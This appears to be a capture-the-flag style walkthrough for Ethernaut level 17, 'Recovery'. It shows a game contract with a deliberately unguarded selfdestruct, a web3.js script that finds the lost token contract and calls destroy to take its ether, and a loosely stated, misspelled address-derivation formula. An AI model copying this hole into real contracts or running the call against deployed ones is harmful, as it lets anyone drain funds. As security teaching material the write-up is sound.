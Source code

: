 # Level 17: Recovery

This is the level 17 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- Basic [Etherscan](https://rinkeby.etherscan.io) inspection
- [Determining address of a new contract](https://swende.se/blog/Ethereum_quirks_and_vulns.html)

## Hack
Given contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

`player` has to retrieve the funds from the lost address of contract which was created using the `Recovery`'s first transaction.

If the address of the lost `SimpleToken` address is retrieved it's funds can be retrieved using the `destroy` method.

The easiest way to solve this would be to copy the address of `Recovery` in [Etherscan](https://rinkeby.etherscan.io/) (on Rinkeby network) and inspect transactions in **Internal Txns** tab. Find the latest **Contract Creation** transaction and click through the same to get the address of created contract.

Now simply call `destroy` method at that address.
So, if `tokenAddr` is the retrieved address then:
```javascript
functionSignature = {
    name: 'destroy',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_to'
        }
    ]
}

params = [player]

data = web3.eth.abi.encodeFunctionCall(functionSignature, params)

await web3.eth.sendTransaction({from: player, to: tokenAddr, data})
```
That'd do the job.

Another way to get the lost address is by utilizing the fact that creation of addresses of Ethereum is deterministic and can be calculated by:
```
 keccack256(address, nonce)
```
where `address` is the address of contract that created the transaction and `nonce` is the number of contracts the creator address has created. You can read more [here](https://swende.se/blog/Ethereum_quirks_and_vulns.html).

That's it!


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
